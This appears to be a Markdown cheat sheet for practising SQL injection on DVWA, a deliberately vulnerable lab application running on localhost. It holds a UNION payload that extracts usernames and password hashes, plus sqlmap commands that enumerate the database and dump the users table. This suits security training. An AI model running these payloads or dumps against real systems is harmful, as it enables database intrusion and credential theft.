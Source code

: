 SQL
===

### SQL Injection

```
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

Paste a hash in your web browser, trying to decrypt it.

### sqlmap

[sqlmap](http://sqlmap.org/) is an open source penetration testing tool that
automates the process of detecting and exploiting SQL injection flaws and
taking over of database servers.

#### Show Databases

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" --dbs
```

#### Show Tables

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa --tables
```

#### Show Columns

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --columns
```

#### Dump Data

```
./sqlmap/sqlmap.py -u "http://localhost:8090/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=<YOUR PHPSESSID>" -D dvwa -T users --dump
```
